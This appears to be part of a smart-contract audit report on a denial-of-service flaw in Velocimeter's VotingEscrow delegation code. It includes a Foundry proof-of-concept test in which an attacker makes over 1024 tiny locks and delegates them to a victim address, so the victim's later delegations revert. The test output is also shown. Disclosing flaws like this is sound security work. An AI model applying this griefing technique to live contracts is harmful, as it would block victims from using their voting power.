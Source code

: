 ```solidity
                    dstRepOld.length + ownerTokenCount <= MAX_DELEGATES, // @@ <<< the call will revert at this stage, as the MAX_DELEGATES limit will be maliciously exceeded in dstRepOld by an attacker
                    "dstRep would have too many tokenIds"
                );
                // All the same
                for (uint i = 0; i < dstRepOld.length; i++) {
                    uint tId = dstRepOld[i];
                    dstRepNew.push(tId);
                }
                // Plus all that's owned
                for (uint i = 0; i < ownerTokenCount; i++) {
                    uint tId = ownerToNFTokenIdList[tokenOwner][i];
                    dstRepNew.push(tId);
                }

                numCheckpoints[dstRep] = dstRepNum + 1;
            }
        }
    }
```

## PoC
Please modify the `test/VotingEscrow.t.sol` file by adding the following test function:
```solidity
    function testDoSDelegating() public {
        address victim = address(0xdead);

        for (uint256 count = 0; count <= 1024; count++) {
            flowDaiPair.approve(address(escrow), 1);

            escrow.create_lock(1, 1 weeks);

            escrow.delegate(victim);
        }

        vm.expectRevert();
        escrow.delegate(victim);
    }
```

You'll see the revert in the logs:
```bash
Failing tests:
Encountered 1 failing test in test/VotingEscrow.t.sol:VotingEscrowTest
[FAIL. Reason: revert: dstRep would have too many tokenIds] testDoSDelegating() (gas: 12321446272)
```

## References
- https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/VotingEscrow.sol#L1266
